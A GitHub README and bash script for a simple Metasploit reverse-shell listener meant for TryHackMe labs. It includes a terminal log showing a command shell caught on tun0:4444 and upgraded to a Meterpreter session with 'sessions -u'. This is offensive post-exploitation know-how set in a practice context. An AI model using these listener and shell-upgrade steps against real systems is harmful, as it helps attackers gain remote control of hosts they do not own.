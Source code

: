 # akrech-reverse-shell-listener

██╗░░░██╗██████╗░░██████╗░██████╗░░█████╗░██████╗░███████╗  ██╗░░░██╗░█████╗░██╗░░░██╗██████╗░
██║░░░██║██╔══██╗██╔════╝░██╔══██╗██╔══██╗██╔══██╗██╔════╝  ╚██╗░██╔╝██╔══██╗██║░░░██║██╔══██╗
██║░░░██║██████╔╝██║░░██╗░██████╔╝███████║██║░░██║█████╗░░  ░╚████╔╝░██║░░██║██║░░░██║██████╔╝
██║░░░██║██╔═══╝░██║░░╚██╗██╔══██╗██╔══██║██║░░██║██╔══╝░░  ░░╚██╔╝░░██║░░██║██║░░░██║██╔══██╗
╚██████╔╝██║░░░░░╚██████╔╝██║░░██║██║░░██║██████╔╝███████╗  ░░░██║░░░╚█████╔╝╚██████╔╝██║░░██║
░╚═════╝░╚═╝░░░░░░╚═════╝░╚═╝░░╚═╝╚═╝░░╚═╝╚═════╝░╚══════╝  ░░░╚═╝░░░░╚════╝░░╚═════╝░╚═╝░░╚═╝

███╗░░██╗░█████╗░██████╗░███╗░░░███╗░█████╗░██╗░░░░░
████╗░██║██╔══██╗██╔══██╗████╗░████║██╔══██╗██║░░░░░
██╔██╗██║██║░░██║██████╔╝██╔████╔██║███████║██║░░░░░
██║╚████║██║░░██║██╔══██╗██║╚██╔╝██║██╔══██║██║░░░░░
██║░╚███║╚█████╔╝██║░░██║██║░╚═╝░██║██║░░██║███████╗
╚═╝░░╚══╝░╚════╝░╚═╝░░╚═╝╚═╝░░░░░╚═╝╚═╝░░╚═╝╚══════╝

██████╗░███████╗██╗░░░██╗███████╗██████╗░░██████╗███████╗░░░░░░░██████╗██╗░░██╗███████╗██╗░░░░░██╗░░░░░
██╔══██╗██╔════╝██║░░░██║██╔════╝██╔══██╗██╔════╝██╔════╝░░░░░░██╔════╝██║░░██║██╔════╝██║░░░░░██║░░░░░
██████╔╝█████╗░░╚██╗░██╔╝█████╗░░██████╔╝╚█████╗░█████╗░░█████╗╚█████╗░███████║█████╗░░██║░░░░░██║░░░░░
██╔══██╗██╔══╝░░░╚████╔╝░██╔══╝░░██╔══██╗░╚═══██╗██╔══╝░░╚════╝░╚═══██╗██╔══██║██╔══╝░░██║░░░░░██║░░░░░
██║░░██║███████╗░░╚██╔╝░░███████╗██║░░██║██████╔╝███████╗░░░░░░██████╔╝██║░░██║███████╗███████╗███████╗
╚═╝░░╚═╝╚══════╝░░░╚═╝░░░╚══════╝╚═╝░░╚═╝╚═════╝░╚══════╝░░░░░░╚═════╝░╚═╝░░╚═╝╚══════╝╚══════╝╚══════╝

████████╗░█████╗░  ███╗░░░███╗███████╗████████╗███████╗██████╗░██████╗░██████╗░███████╗████████╗███████╗██████╗░
╚══██╔══╝██╔══██╗  ████╗░████║██╔════╝╚══██╔══╝██╔════╝██╔══██╗██╔══██╗██╔══██╗██╔════╝╚══██╔══╝██╔════╝██╔══██╗
░░░██║░░░██║░░██║  ██╔████╔██║█████╗░░░░░██║░░░█████╗░░██████╔╝██████╔╝██████╔╝█████╗░░░░░██║░░░█████╗░░██████╔╝
░░░██║░░░██║░░██║  ██║╚██╔╝██║██╔══╝░░░░░██║░░░██╔══╝░░██╔══██╗██╔═══╝░██╔══██╗██╔══╝░░░░░██║░░░██╔══╝░░██╔══██╗
░░░██║░░░╚█████╔╝  ██║░╚═╝░██║███████╗░░░██║░░░███████╗██║░░██║██║░░░░░██║░░██║███████╗░░░██║░░░███████╗██║░░██║
░░░╚═╝░░░░╚════╝░  ╚═╝░░░░░╚═╝╚══════╝░░░╚═╝░░░╚══════╝╚═╝░░╚═╝╚═╝░░░░░╚═╝░░╚═╝╚══════╝░░░╚═╝░░░╚══════╝╚═╝░░╚═╝

░██████╗██╗░░██╗███████╗██╗░░░░░██╗░░░░░  ███████╗░█████╗░░██████╗██╗░░░██╗██╗░░░░░██╗░░░██╗
██╔════╝██║░░██║██╔════╝██║░░░░░██║░░░░░  ██╔════╝██╔══██╗██╔════╝╚██╗░██╔╝██║░░░░░╚██╗░██╔╝
╚█████╗░███████║█████╗░░██║░░░░░██║░░░░░  █████╗░░███████║╚█████╗░░╚████╔╝░██║░░░░░░╚████╔╝░
░╚═══██╗██╔══██║██╔══╝░░██║░░░░░██║░░░░░  ██╔══╝░░██╔══██║░╚═══██╗░░╚██╔╝░░██║░░░░░░░╚██╔╝░░
██████╔╝██║░░██║███████╗███████╗███████╗  ███████╗██║░░██║██████╔╝░░░██║░░░███████╗░░░██║░░░
╚═════╝░╚═╝░░╚═╝╚══════╝╚══════╝╚══════╝  ╚══════╝╚═╝░░╚═╝╚═════╝░░░░╚═╝░░░╚══════╝░░░╚═╝░░░


please read carefully, if you havn't any idea about "how to upgrade a normal reverse-shell to a meterpreter shell"



It's the first tool that I had made with bash scripting.
a very simple but useful(maybe) tool for tryhackme users.

#tested on kali-linux

#PROCESS
git clone https://github.com/a-k-r-e-c-h/akrech-rev-shell
$ cd akrech-rev-shell
$ chmod +x akrech.sh
$ ./akrech.sh                <-----#use "nano akrech.sh" if you want's to change the exploit or the IP/network interface.


[note]
***move/copy "akrech.sh" to "/bin" to access it from anywhere on your terminal***   <---$ mv akrech.sh /bin --->



<----after getting a shell successfully--->
ENTER(1) --- "background"
ENTER(2) --- "sessioions -u 1"     <---I used (1) for session 1...else use your sessions id...view it by enter"sessions">

#wait a while
#if everything works fine...then you are gonna get a meterpreter session...check it by ENTER "sessions"

ENTER(3) --- sessions -i 2        <---you should get a meterpreter shell successfully--->

<<<<<<<----------------------------------------------------------------------->>>>>>>
█▀▀▄ █▀▀ █▀▄▀█ █▀▀█ 
█░░█ █▀▀ █░▀░█ █░░█ 
▀▀▀░ ▀▀▀ ▀░░░▀ ▀▀▀▀


┌──(root💀kali)-[/home/kali/akrech-rev-shell]
└─# ./akrech.sh   
 


░█████╗░██╗░░██╗██████╗░███████╗░█████╗░██╗░░██╗
██╔══██╗██║░██╔╝██╔══██╗██╔════╝██╔══██╗██║░░██║
███████║█████═╝░██████╔╝█████╗░░██║░░╚═╝███████║
██╔══██║██╔═██╗░██╔══██╗██╔══╝░░██║░░██╗██╔══██║
██║░░██║██║░╚██╗██║░░██║███████╗╚█████╔╝██║░░██║
╚═╝░░╚═╝╚═╝░░╚═╝╚═╝░░╚═╝╚══════╝░╚════╝░╚═╝░░╚═╝
 
                       git- a-k-r-e-c-h
                       mail- itz.a.k.r.e.c.h@gmail.com
                      
[*] Using configured payload generic/shell_reverse_tcp
lhost => tun0
lport => 4444
[*] Started reverse TCP handler on 10.8.217.33:4444 
[*] Command shell session 1 opened (10.8.217.33:4444 -> 10.8.217.33:39094) at 2021-09-07 13:35:34 -0400

background

Background session 1? [y/N]  y
msf6 exploit(multi/handler) > sessions

Active sessions
===============

  Id  Name  Type             Information  Connection
  --  ----  ----             -----------  ----------
  1         shell sparc/bsd               10.8.217.33:4444 -> 10.8.217.33:39094 (10.8.217.33)

msf6 exploit(multi/handler) > sessions -u 1
[*] Executing 'post/multi/manage/shell_to_meterpreter' on session(s): [1]

[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 10.8.217.33:4433 
[*] Sending stage (984904 bytes) to 10.8.217.33
[*] Meterpreter session 2 opened (10.8.217.33:4433 -> 10.8.217.33:41528) at 2021-09-07 13:36:12 -0400
[*] Command stager progress: 100.00% (773/773 bytes)
msf6 exploit(multi/handler) > sessions -i 2
[*] Starting interaction with 2...

meterpreter > 



<<<<<<<------------------------------------------------------------------------->>>>>>

*akrech   ---a simple metasploit automated reverse-shell-listener tool written in bash.
*this tool is made for time saving & day-to-day usage.
*metasploit has must be installed to ran this script on your machine.
*found me on tweeter-- https://twitter.com/a_k_r_e_c_H

#!/bin/bash

 
echo -e " \e[91m


░█████╗░██╗░░██╗██████╗░███████╗░█████╗░██╗░░██╗
██╔══██╗██║░██╔╝██╔══██╗██╔════╝██╔══██╗██║░░██║
███████║█████═╝░██████╔╝█████╗░░██║░░╚═╝███████║
██╔══██║██╔═██╗░██╔══██╗██╔══╝░░██║░░██╗██╔══██║
██║░░██║██║░╚██╗██║░░██║███████╗╚█████╔╝██║░░██║
╚═╝░░╚═╝╚═╝░░╚═╝╚═╝░░╚═╝╚══════╝░╚════╝░╚═╝░░╚═╝"
echo -e " \e[5m
                       git- a-k-r-e-c-h
                       mail- itz.a.k.r.e.c.h@gmail.com
                      "

msfconsole -q -x " use ```exploit/multi/handler```;    <---change this, if you wants to set another exploit--->
  set lhost ```tun0``` ;                               <---change this, if you wants to set another IP/network interface---> 
   set lport ```4444``` ;                              <---change this, if you wants to listen on another port--->
    exploit ;"
